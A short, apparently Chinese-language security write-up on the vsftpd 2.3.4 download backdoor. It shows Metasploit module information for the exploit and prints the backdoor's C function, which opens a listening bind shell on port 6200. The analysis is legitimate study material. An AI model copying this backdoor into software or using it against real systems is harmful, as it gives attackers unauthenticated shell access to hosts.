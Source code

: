 ```

Available targets:
  Id  Name
  --  ----
  0   Automatic

Basic options:
  Name   Current Setting  Required  Description
  ----   ---------------  --------  -----------
  RHOST                   yes       The target address
  RPORT  21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the
  VSFTPD download archive. This backdoor was introduced into the
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011
  according to the most recent information available. This backdoor
  was removed on July 3rd 2011.

References:
  CVE: Not available
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
```

参考[pastebin.com/AetT9sS5](https://pastebin.com/AetT9sS5)发现这是一个vsftpd早期版本源代码中的恶意后门：

后门函数如下：

```c
// vsftpd-2.3.4/sysdeputil.c
int vsf_sysutil_extra(void)
{
    int fd, rfd;
    struct sockaddr_in sa;
    if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
        exit(1);
    memset(&sa, 0, sizeof(sa));
    sa.sin_family = AF_INET;
    sa.sin_port = htons(6200);
    sa.sin_addr.s_addr = INADDR_ANY;
    if((bind(fd,(struct sockaddr *)&sa, sizeof(struct sockaddr))) < 0)
        exit(1);
    if((listen(fd, 100)) == -1)
        exit(1);
    for(;;){
        rfd = accept(fd, 0, 0);
        close(0); close(1); close(2);
        dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
        execl("/bin/sh","sh",(char *)0);
    }
}
```
